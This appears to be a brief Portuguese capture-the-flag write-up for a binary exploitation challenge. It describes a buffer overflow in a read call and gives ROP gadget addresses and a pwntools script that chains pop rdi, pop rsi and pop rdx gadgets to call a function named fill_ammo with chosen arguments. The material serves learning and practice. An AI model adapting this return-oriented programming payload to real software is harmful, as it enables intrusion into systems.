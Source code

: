 Identifiquei que havia um overflow em uma chamada da função read na main.
A partir disso descobri outra função chamada fill_ammo que é a que queremos dar exploit

Ela recebe 3 parametros, sendo assim, utilizando o ROPgadget consegui os gadgets para passar estes 3 parametros e o retorno:

# 0x000000000040159f : pop rdi ; ret
# 0x000000000040159b : pop rdx ; ret
# 0x000000000040159d : pop rsi ; ret
# 004011c4 c3              RET


Após isso gerei o payload utilizando o seguinte script:

```python
 from pwn import *

ret = 0x401588
pop_rdi = 0x40159f
pop_rsi = 0x40159d
pop_rdx = 0x40159b
fill_ammo_addr = 0x4012f5


# 40 A para preencher o buffer + o ponteiro
print(b"A"*40 + p64(ret) + p64(pop_rdi) + p64(0xdeadbeef) + p64(pop_rsi) + p64(0xdeadbabe) + p64(pop_rdx) + p64(0xdead1337) + p64(fill_ammo_addr))
```


